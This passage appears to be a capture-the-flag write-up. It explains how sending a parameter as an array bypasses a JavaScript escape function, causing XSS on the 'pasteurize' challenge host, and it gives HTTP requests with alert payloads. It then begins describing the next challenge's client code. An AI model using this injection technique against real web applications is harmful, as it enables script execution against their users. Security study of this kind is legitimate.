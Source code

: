 The `escape_string` function expects only a string in the input parameters, and if `content` contains an array, the processing logic is violated and the attacker can execute arbitrary JS code.

```js
const escape_string = unsafe => JSON.stringify(unsafe).slice(1, -1)
  .replace(/</g, '\\x3C').replace(/>/g, '\\x3E');
```
Example
```js
console.log('const node="%s"', escape_string('test'));

const node="test"

console.log('const node="%s"', escape_string(['test']));

const node=""test""
```

HTTP Request
```http
POST / HTTP/1.1
Host: pasteurize.web.ctfcompetition.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

content[]=-alert(123)-
```

Result
```js
const note = ""-alert(123)-"";
```

But as you can see from the table above - the extended `body-parser` format is optional and the array can also be sent using several variables with the same key.

HTTP Request
```http
POST / HTTP/1.1
Host: pasteurize.web.ctfcompetition.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

content=-alert(123)//&content=x
```

Result
```js
const note = ""-alert(123)//","x"";
```

## All The Little Things
The application allows you to create private notes visible only to the current user.

By default, the application loads the user from a JSON object that returns `/me` endpoint.
```js
window.addEventListener('DOMContentLoaded', ()=>{
    fetch('/me').then(e => e.json()).then(make_user_object);
}

...

class User {
    #username; #theme; #img
    constructor(username, img, theme) {
        this.#username = username
        this.#theme = theme
        this.#img = img
    }
```